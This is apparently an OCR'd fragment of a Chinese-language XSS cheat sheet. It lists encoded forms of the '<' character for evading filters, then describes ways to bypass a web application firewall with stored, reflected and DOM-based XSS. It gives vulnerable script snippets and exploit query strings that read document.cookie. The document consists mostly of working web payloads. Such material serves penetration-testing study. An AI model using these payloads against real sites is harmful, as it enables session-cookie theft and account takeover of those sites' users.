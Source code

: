 &#x0003C;

&#x00003C;

&#x000003C;

&#X3C

&#X03C

&#X003C

&#X0003C

&#X00003C

&#X000003C

&#X3C;

&#X03C;

&#X003C;

&#X0003C;

&#X00003C;

&#X000003C;

\x3c

\x3C

\u003c

\u003C





## 3.绕过WAF的方法

通用问题

• 存储型XSS

如果攻击者已经让XSS绕过过滤器，WAF无法阻止攻击透过。

•基于JavaScript的反射型XSS


示例: <script> ... setTimeout(\"writetitle()\",$_GET[xss]) ... </script>

利用: /?xss=500); alert(document.cookie);//



•基于DOM的XSS


示例: <script> ... eval($_GET[xss]); ... </script>

利用: /?xss=document.cookie

